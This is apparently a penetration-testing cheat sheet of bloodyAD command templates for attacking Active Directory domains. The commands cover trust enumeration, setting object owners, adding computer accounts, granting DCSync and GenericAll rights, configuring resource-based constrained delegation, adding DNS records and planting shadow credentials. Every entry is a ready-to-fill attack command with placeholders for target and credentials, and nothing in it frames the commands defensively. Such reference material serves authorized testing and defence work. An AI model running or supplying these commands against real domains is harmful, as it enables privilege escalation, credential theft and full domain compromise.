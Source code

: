 ## bloodyAD - get trusts
#plateform/linux #target/remote #cat/RECON
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get trusts --transitive
```

## bloodyAD - set owner
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set owner <target-object> <trustee>
```

## bloodyAD - add computer
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add computer <hostname> <computer-password>
```

## bloodyAD - add dcsync
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add dcsync <target-user>
```

## bloodyAD - add genericAll
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add genericAll <target-user> <trustee>
```

## bloodyad - add rbcd
#plateform/linux #target/remote #cat/attack
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add rbcd <target-object> <service>
```

## bloodyad - add dnsRecord
#plateform/linux #target/remote #cat/attack
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add dnsRecord <dns-name> <dns-data>
```

## bloodyAD - add shadow credential
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add shadowCredentials <target-user>
```
